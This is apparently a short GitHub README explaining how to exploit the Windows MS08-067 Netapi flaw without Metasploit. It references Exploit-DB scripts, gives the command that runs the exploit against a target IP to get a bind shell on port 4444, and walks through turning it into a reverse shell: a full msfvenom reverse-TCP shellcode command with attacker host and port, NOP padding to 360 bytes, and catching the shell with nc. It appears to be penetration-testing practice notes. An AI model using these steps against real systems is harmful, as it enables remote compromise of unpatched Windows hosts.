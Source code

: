 # Netapi MS08-067 without metasploit

Reference:
https://www.exploit-db.com/exploits/7132

https://www.exploit-db.com/exploits/40279	(Reverse shell modification of above payload but not working).

7132.py directly bind shell to port 4444 at server(No code modification required).
Exploit: python 7132.py 192.168.1.6 2	(& got bind shell at server side port 4444)

Above code can ge modified to get reverse shell:
i. Generate shellcode using msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.21 LPORT=5253 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows
ii. Replace shellcode with above generated code.
iii. Add '\0x90' such that total size of payload becomes equal to 360 bytes(same as the size of bind shellcode of the exploit).

[Size of my payload generated = 348 bytes so addded "\x90" *12 to my shellcode]

& get reverse shell on nc :).

